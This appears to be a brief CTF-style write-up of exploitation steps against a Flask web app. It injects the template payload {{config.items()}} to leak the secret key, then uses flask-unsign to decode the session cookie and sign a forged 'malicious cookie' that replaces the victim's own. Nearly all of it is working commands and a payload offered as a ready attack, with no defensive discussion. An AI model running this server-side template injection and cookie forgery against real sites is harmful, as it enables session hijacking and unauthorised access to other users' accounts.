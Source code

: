 - - - 
## **Exploitation Steps** :

Install the tool : 
```python
sudo pip3 install flask-unsign
```

first inject **``{{config.items()}}``** to find the value of **<mark style="background: #FF5582A6;">Secret-key</mark>**.  

Now, Copy the cookie from the website.

```sh
flask-unsign --decode --cookie '<cookie>'
```

![1000](https://i.imgur.com/FAjZSAG.png)

copy the output and use it to build a new malicious cookie.

```sh
flask-unsign --sign --cookie "<output>" --secret '<Secret-key>'
```

![1300](https://i.imgur.com/qq1myf7.png)

Replace this cookie with your's and 💥️💥️💥️ MAGIC 🪄️🪄️

